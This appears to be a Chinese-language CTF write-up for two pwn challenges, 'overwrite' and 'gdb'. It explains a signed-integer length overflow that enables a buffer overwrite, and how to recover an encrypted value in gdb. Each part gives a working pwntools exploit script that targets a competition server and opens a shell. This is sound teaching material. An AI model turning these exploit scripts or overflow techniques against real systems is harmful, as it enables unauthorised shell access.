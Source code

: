 ## overwrite
![[Pasted image 20240929120552.png]]
当`v4`中的字符转为整数后大于114514时即可获取`shell`,正常输入时最大输入48个数，既0x30长度，刚好无法覆盖v4
![[Pasted image 20240929120941.png]]
![[Pasted image 20240929120950.png]]
我们可以发现v2的定义为有符号的整数，在read时会将v2转为无符号整数，此处有整数溢出，故可以输入一个负数，在read时即可read超出0x30数量的字符
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')    
local = True
if local:
    p = process('./overwrite')
else:
    p = remote('8.147.132.32', 41160)

p.recvuntil(b'readin: ')
p.sendline(b'-1')
p.recvuntil(b'say: ')

payload = b'a' * 0x30
payload += b'114515'

p.sendline(payload)
p.interactive()
```
![[Pasted image 20240929121418.png]]

## gdb
![[Pasted image 20240929121602.png]]
题意为将``v10``的数据按某种规则加密，我们输入的字符与加密后的字符一致即可获取`shell`
在`gdb`中可以看到加密前的数据为`0d000721`
![[Pasted image 20240929121931.png]]![[Pasted image 20240929122007.png]]
数据加密后为`0x4557455355431d5d`,输入即可
exp:
```python
import struct
from pwn import *

encrypted = 0x4557455355431d5d

local = False
if local:
    p = process('./gdb1')
    pwnlib.gdb.attach(p, 'b printf')
else:
    p = remote('8.147.132.32', 12202)

p.recvuntil(b'encrypted data: ')

byte_array = struct.pack('>Q', encrypted)

p.sendline(byte_array[::-1])
p.interactive()
```
![[Pasted image 20240929122151.png]]
